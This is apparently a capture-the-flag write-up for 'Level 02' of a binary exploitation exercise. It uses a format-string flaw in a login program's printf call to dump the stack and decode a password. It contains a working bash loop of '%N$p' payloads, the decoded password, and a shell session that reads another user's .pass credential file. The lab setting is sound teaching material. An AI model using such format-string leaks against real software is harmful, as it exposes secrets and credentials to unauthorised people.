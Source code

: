 # Level 02

## Initial Context

- One file: `level02`

## Solving the Challenge

The program expects two inputs, an username and a password.

By looking at the decompiled code, the expected password is the next flag.
And if the password is wrong, the username is printed using `printf` which is exploitable.

We can use the `%p` specifier with a `$` to change the offset of the parameter read.

A simple script to dump the stack would be:

```bash
for x in $(seq 1 42); do
    echo -n "$x - ";
    python -c 'print "%'$x'$p "' | ./level02 | grep 'does not have access!';
done
```

The output is:

```
...
18 - (nil)  does not have access!
19 - (nil)  does not have access!
20 - 0x100000000  does not have access!
21 - (nil)  does not have access!
22 - 0x756e505234376848  does not have access!
23 - 0x45414a3561733951  does not have access!
24 - 0x377a7143574e6758  does not have access!
25 - 0x354a35686e475873  does not have access!
26 - 0x48336750664b394d  does not have access!
27 - (nil)  does not have access!
28 - 0x207024383225  does not have access!
29 - (nil)  does not have access!
...
```

We can see that offset 22 to 26 seems to contains ASCII.
To decode it, we convert HEX to ASCII and to reverse it (since we are in the wrong endianness).

```python
def decode(input):
    return input.decode("hex")[::-1]

print(decode("756e505234376848"))
# Hh74RPnu
print(decode("45414a3561733951"))
# Q9sa5JAE
print(decode("377a7143574e6758"))
# XgNWCqz7
print(decode("354a35686e475873"))
# sXGnh5J5
print(decode("48336750664b394d"))
# M9KfPg3H
```

The password is: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

```bash
$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: x   
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, x!
$ whoami
level03
$ cat /home/users/level03/.pass
<flag>
```
